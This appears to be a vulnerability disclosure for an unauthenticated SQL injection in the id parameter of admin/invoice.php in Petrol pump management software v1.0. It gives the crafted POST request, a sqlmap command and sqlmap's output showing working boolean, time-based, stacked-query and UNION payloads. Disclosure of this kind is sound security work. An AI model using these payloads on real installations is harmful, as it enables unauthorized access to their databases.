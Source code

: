 ### Source code

[Petrol pump management software free download | SourceCodester](https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html)



### Description

SQL Injection vulnerability in sourcecodester Petrol pump management software v1.0, A vulnerability has been found that is rated as high risk, affecting some unknown functionality of the admin\invoice.php file, Using parameter id to construct malicious SQL statements to obtain sensitive information, thus causing harm



### Analysis vulnerability

`admin\invoice.php`

![image-20241023165652040](assets/image-20241023165652040.png)

Here, the user input `$_POST['id']` is concatenated into the SQL query statement, which is obviously susceptible to SQL injection attacks



### Recurrent vulnerability

![image-20241023165723658](assets/image-20241023165723658.png)

```
POST /admin/invoice.php HTTP/1.1
Host: 10.151.167.168:6677
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie:
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

id=1*
```

Save the packet and use sqlmap attack

```
python3 sqlmap.py --random-agent -r data.txt --risk 3 --batch
```

![image-20241023165827647](assets/image-20241023165827647.png)

```
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: id=-6094' OR 1911=1911 AND 'hAoG'='hAoG

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 1041 FROM (SELECT(SLEEP(5)))UTeR) AND 'HnhT'='HnhT

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: id=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176626b71,0x6b57657774656652476e4d594f6959545363546f73424a4c547364484a4d47696247447769514653,0x71766b6a71),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```

Look at the packet, I did not add a cookie value, indicating that no authentication does not need to log in to remotely launch attacks

You can see that this payload utilizes two injection methods, time-based blind、boolean-based blind、stacked queries and UNION query, and successfully injects the database name